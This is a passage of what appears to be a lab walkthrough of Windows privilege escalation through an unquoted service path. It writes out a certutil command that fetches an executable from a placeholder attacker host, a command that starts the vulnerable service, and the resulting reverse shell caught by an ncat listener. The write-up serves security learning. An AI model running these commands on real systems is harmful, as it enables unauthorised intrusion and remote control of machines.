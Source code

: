 Now let transfer it to the target.

```
certutil -urlcache -split -f "http://IP:PORT/common.exe" common.exe
```

![image](https://user-images.githubusercontent.com/69868171/154307592-a4238cf8-a907-46dd-9d3d-23f935cddc0b.png)

Now let start our ncat listener for incoming connection. Now let start unquotedsvc.

```
sc start unquotedsvc
```

Now going back to our listener Boom we have shell.

![image](https://user-images.githubusercontent.com/69868171/154308391-750816fe-52bb-42c3-b3a6-af894eda83f9.png)



